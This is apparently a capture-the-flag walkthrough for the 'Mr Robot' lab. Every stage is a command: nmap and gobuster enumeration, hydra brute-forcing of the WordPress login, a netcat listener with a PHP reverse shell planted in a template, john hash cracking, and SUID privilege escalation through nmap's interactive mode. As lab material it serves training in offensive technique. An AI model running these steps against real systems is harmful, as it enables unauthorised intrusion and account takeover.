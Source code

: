 K4p3r3 | 30th MAY 2022

MR ROBOT CTF

--------------------
#Initial nmap scan of the given IP address

nmap -sV -sC -oA nmapscan/initial MACHINE_IP

--------------------

#Carry out enumeration on thr given web to find content that has not been indexed i.e say the robots.txt file

On the browser: http://MACHINE_IP/robots.txt

------------------------------

#Directory busting to find hidden directories in the web application

gobuster dir -u http://MACHINE_IP -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt

-----------------------------------

#The gobuster gives a lucrative output of a wordpress site and wordpress usually is vulnerable to many attacks
#We attempt bruteforce login using hydra
#This tries to bruteforce the valid username used to login 

hydra -L fsocity.dic -p test MACHINE_IP http-post-form "/wp-login.php:log=^USER^&pwd=^PWD^:Invalid username" -t 30

-------------------------------
#Bruteforcing the password after getting a valid username
----------------------------------------

hydra -l Elliot -P fsocity.dic MACHINE_IP http-post-form "/wp-login.php:log=^USER^&pwd=^PWD^:The password you entered for the username" -t 30

#After gaining access we need a php reverse shell to get into the machine hosting the website
---------------------------------------

rlwrap nc -lvnp 53
 where l= listening
	v= verbose
	n= reverse_name lookup
	p= port being scanned
#getting the reverse shell script

Search on the web for the script 

php reverse shell script in raw format, copy the code in the archives or the 404 template in the editor area of the wordpress site and save

Run the script to obtain a reverse shell on your terminal


#Use john to get the backup password
---------------------------------

john md5.hash --wordlist=fsocity.dic --format=Raw-MD5



#Having a fully interactive shell on our target
----------------------------------

python -c 'import pty;pty.spawn("/bin/bash")'

---------------------------

At this point one is able to read the protected txt file

#Heading to root privilege escalation on the target machine.Here we take advantage of the SUID BINARIES
-----------------------------

find / -perm +6000 2>/dev/null | grep '/bin'

#Finding the nmap binary SUID

#GO to GTFOBins to find exploits to SUID binary exploits
-----------------------------
nmap --interactive

!sh
